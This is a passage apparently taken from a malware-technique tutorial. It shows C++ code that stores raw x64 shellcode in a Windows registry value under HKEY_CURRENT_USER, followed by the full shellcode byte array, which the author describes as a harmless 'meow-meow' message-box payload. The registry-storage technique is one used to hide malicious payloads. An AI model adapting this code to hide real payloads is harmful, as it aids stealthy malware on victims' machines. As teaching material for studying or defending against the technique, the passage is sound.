 ```cpp
    "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
    "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
    "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
    "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
    "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
    "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
    "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
    "\x2e\x2e\x5e\x3d\x00";

  DWORD d;
  const char* secret = "Software\\meowApp";

  LSTATUS res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR) secret, 0, NULL, 0, KEY_WRITE, NULL, &hkey, &d);
  printf (res != ERROR_SUCCESS ? "failed to create reg key :(\n" : "successfully create key :)\n");

  res = RegSetValueEx(hkey, (LPCSTR)"secretMeow", 0, REG_BINARY, data, sizeof(data));
  printf(res != ERROR_SUCCESS ? "failed to set registry value :(\n" : "successfully set registry value :)\n");

  RegCloseKey(hkey);
}
```

As usually, I used `meow-meow` messagebox payload:     

```cpp
const unsigned char data[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```
